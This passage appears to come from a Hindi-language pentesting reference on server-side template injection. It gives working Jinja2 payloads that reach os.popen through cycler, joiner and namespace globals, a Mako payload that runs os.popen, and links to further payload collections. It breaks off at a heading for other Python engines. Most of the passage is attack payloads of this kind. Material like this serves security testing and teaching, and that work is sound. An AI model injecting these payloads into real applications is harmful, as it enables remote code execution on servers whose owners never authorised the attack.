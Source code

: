 **Jinja2 - टेम्पलेट प्रारूप**
```python
{% raw %}
{% extends "layout.html" %}
{% block body %}
<ul>
{% for user in users %}
<li><a href="{{ user.url }}">{{ user.username }}</a></li>
{% endfor %}
</ul>
{% endblock %}
{% endraw %}


```
[**RCE पर निर्भर नहीं है**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
**Jinja का दुरुपयोग करने के बारे में अधिक जानकारी**:

{% content-ref url="jinja2-ssti.md" %}
[jinja2-ssti.md](jinja2-ssti.md)
{% endcontent-ref %}

अन्य पेलोड [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) में

### Mako (Python)
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
**अधिक जानकारी**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

### अन्य पायथन
